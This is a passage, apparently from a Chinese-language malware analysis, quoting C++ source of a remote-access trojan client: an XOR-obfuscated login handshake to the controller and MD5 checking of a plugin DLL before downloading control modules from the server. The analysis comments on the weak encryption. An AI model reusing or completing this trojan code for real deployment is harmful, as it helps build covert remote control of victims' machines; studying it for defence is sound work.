 ```
    if(m_Socket == NULL)
    {
        return FALSE;
    }

    //协商初始数据
    LOGININFO m_LoginInfo = {0};
    m_LoginInfo.m_Cmd = nCmd;
    m_LoginInfo.m_hWnd = (HWND) nPassWord;
    m_LoginInfo.m_UserId = PS_USER_ID;
    EncryptByte(&m_LoginInfo, sizeof(LOGININFO));
    return SendData(&m_LoginInfo, sizeof(LOGININFO));
}

void CMyClientTran::EncryptByte(LPVOID pData, DWORD nLen)
{
    BYTE* pTmpData = (BYTE*) pData;
    for(DWORD i = 0; i < nLen; i++)
    {
        pTmpData[i] = pTmpData[i] ^ PS_ENTRY_COMM_KEY;  
    }
}

```

连接控制端成功后发送软件版本和上线密码（传输的数据使用异或F7加密，有点弱爆的感觉。），然后从主控端下载控制插件。

![enter image description here](http://drops.javaweb.org/uploads/images/04c0ccaabb7d7ac6d4158fec0dc91e4b6b752f43.jpg)

```
void CMyWorkMoudle::MakeModFileMd5(LPCTSTR pFileName, BYTE* sMd5Str)
{
    HANDLE hFile = CreateFile(pFileName, GENERIC_READ, FILE_SHARE_READ,NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if(hFile == INVALID_HANDLE_VALUE)
    {
        return;
    }

    DWORD nReadLen = 0;
    DWORD nFileLen = GetFileSize(hFile, NULL);
    BYTE* pFileData = new BYTE[nFileLen];
    ReadFile(hFile, pFileData, nFileLen, &nReadLen, NULL);
    CloseHandle(hFile);

    //校验本地文件
    MD5_CTX context = {0};
    MD5Init (&context);
    MD5Update (&context, pFileData, nFileLen);
    MD5Final (&context);

    //保存校验码
    CopyMemory(sMd5Str, &context, 16);

    delete [] pFileData;
}   

HMODULE CMyWorkMoudle::GetModFile(char* pFilePath, UINT nCmd)
{
    //MD5校验
    BYTE m_DllFileMd5[24] = {0};
    MakeModFileMd5(m_ModFilePath, m_DllFileMd5);

    //连接服务器，上送本地文件校验码
```